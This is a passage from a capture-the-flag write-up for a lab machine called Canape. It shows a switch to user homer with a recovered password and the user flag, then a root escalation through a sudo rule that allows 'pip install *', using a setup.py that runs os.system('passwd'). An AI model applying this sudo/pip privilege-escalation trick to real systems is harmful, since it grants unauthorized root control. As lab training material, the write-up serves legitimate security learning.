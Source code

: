 ```console
```

I tried with that last password, as it said something about SSH and had no user, so I was curious. And voilà!! I was Homer!

```console
www-data@canape:/tmp$ su homer
su homer
Password: 0B4jyA0xtytZi7esBNGp

homer@canape:/tmp$ cd /home/homer   
cd /home/homer
homer@canape:~$ cat user.txt
cat user.txt
bce918696f293e62b2321703bb27288d
```

## Privilege escalation

Privilege escalation was much more straightforward than getting to user. As always, I check for sudo commands I can run:

```console
homer@canape:~$ sudo -l
sudo -l
[sudo] password for homer: 0B4jyA0xtytZi7esBNGp

Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

Chara! Way to root found! I just had to google and find this [article](https://github.com/0x00-0x00/FakePip) that explained how to get to root. However, I didn't do it like that. Instead, I decided to do a ``passwd`` and set the root password to 1. The contents of my setup.py were:

```py
import os
os.system('passwd')
```

I executed it and, as it looked as if it had hung, I tried typing in the 1, then again, and output came back! Later I figured out why this had happened: whenever you execute the command you're asked to type the password and then re-type it, so that's why I needed to type it twice.

*Steps to get to root*

![Img](images/root1.png "Img")
